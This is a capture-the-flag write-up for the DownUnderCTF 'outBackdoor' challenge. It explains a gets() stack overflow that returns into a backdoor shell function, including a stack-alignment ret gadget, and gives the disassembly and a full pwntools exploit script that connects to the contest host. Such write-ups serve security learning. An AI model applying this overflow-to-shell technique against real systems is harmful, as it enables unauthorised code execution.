

## Mitigations

```
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
```

## Solution


### vuln 1
there is a backdoor function called `outBackdoor` in the function, which give as a shell.



<!-- more -->

### vuln 2

the main function utilze gets, we can overwrite rip to outBackdoor which give as a shell when return.

simplely write 0x10 bytes + 0x8 btyes (rbp size) + 0x004011d7 in 8 bytes to overwrite rip and get flag

however, this will cause **EOF error**

this is because the stack is **not aligned**, we need to align the stack to 16x.

since it is x64 system, each data worth 8 bytes, add a ret operation to pop 1 value stack before call the backdoor will solve this problem.

```
$ ROPgadget --binary outBackdoor | grep ": ret"
0x0000000000401016 : ret
0x000000000040117a : ret 0xfffe
0x0000000000401062 : retf 0x2f
```

so write x10 bytes + 0x8 btyes (rbp size) + 0x401016 + 0x004011d7 to get shell.

## code

```
int main (int argc, char **argv, char **envp);
; var char *s @ rbp-0x10
0x00401195      push rbp
0x00401196      mov rbp, rsp
0x00401199      sub rsp, 0x10
0x0040119d      mov eax, 0
0x004011a2      call buffer_init   ; sym.buffer_init
0x004011a7      lea rdi, str.Fool_me_once__shame_on_you._Fool_me_twice__shame_on_me. ; 0x402008 ; const char *s
0x004011ae      call puts          ; sym.imp.puts ; int puts(const char *s)
0x004011b3      lea rdi, str.Seriously_though__what_features_would_be_cool__Maybe_it_could_play_a_song ; 0x402048 ; const char *s
0x004011ba      call puts          ; sym.imp.puts ; int puts(const char *s)
0x004011bf      lea rax, [s]
0x004011c3      mov rdi, rax       ; char *s
0x004011c6      mov eax, 0
0x004011cb      call gets          ; sym.imp.gets ; char *gets(char *s)
0x004011d0      mov eax, 0
0x004011d5      leave
0x004011d6      ret
outBackdoor ();
0x004011d7      push rbp
0x004011d8      mov rbp, rsp
0x004011db      lea rdi, str.W...w...Wait__Who_put_this_backdoor_out_back_here ; 0x402098 ; const char *s
0x004011e2      call puts          ; sym.imp.puts ; int puts(const char *s)
0x004011e7      lea rdi, str.bin_sh ; 0x4020cd ; const char *string
0x004011ee      mov eax, 0
0x004011f3      call system        ; sym.imp.system ; int system(const char *string)
0x004011f8      nop
0x004011f9      pop rbp
0x004011fa      ret
0x004011fb      nop dword [rax + rax]
```


## exploits

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--host=pwn-2021.duc.tf' '--port=31921' outBackdoor
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('outBackdoor')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'pwn-2021.duc.tf'
port = int(args.PORT or 31921)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
import os
print(io.recv(1024))
io.send(os.urandom(0x10+0x8)+(0x401016).to_bytes(0x8,"little")+(0x004011d7).to_bytes(0x8,"little"))
io.interactive()
```

DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}